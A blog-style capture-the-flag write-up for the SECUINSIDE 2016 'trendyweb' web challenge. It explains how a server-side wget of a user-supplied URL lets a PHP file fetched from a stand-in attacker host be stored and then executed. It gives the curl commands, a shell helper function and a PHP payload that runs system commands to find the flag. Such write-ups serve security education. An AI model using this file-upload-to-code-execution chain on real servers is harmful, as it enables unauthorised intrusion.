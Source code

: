 ```yaml
---
layout: post
alias: "/blog/2016/07/10/secuinside-ctf-trendyweb/"
date: "2016-07-10T14:32:36+09:00"
title: "SECUINSIDE CTF Quals 2016 web100: trendyweb"
tags: [ "ctf", "writeup", "web", "php" ]
"target_url": [ "https://ctftime.org/event/335" ]
---
```


This CTF was diffcult, and it seemed to be not well-prepared. I want to see the graph of the number of problems.

Our team could solve only this.
But, considering the solved numbers, we needed to solve also `CYKOR_0000*`s and `noted`.

## solution

Upload your `.php` as `avatar.png%3fhoge.php` into the `/data/$sessId/` directory and execute it on the server.


You can upload files via the `system('/usr/bin/wget '.escapeshellarg($origUrl));`.
Make `http://your-host.example.com/avatar.png?foo.php` returns something, and call:

``` sh
$ curl 'http://chal.cykor.kr:8082' -D- -H 'Cookie: PHPSESSID=mde2hg0rm37k28vl8rvatkco31; path=/' -F image='http://your-host.example.com/avatar.png?foo'
```

This makes the file on `http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3ffoo`.
So if you use `image='http://your-host.example.com/avatar.png?foo.php`, it becomes `http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3ffoo.php` and this is executed on the server when you request it.

This is enough to see the flag.
Define a utility function and explore it, you will found the executable which has the flag.

``` sh
execute_php() {
    cat > path/to/avatar.png
    key=$RANDOM
    curl 'http://chal.cykor.kr:8082' -D- -H 'Cookie: PHPSESSID=mde2hg0rm37k28vl8rvatkco31; path=/' -F image='http://your-host.example.com/avatar.png?'$key'.php'
    curl -D- 'http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3f'$key'.php'
}
```

``` php
<?php
system('id', $retval);
system('pwd', $retval);
system('ls -l /', $retval);
system('stat /flag_is_heeeeeeeereeeeeee', $retval);
system('/flag_is_heeeeeeeereeeeeee', $retval); // => flag
?>
```
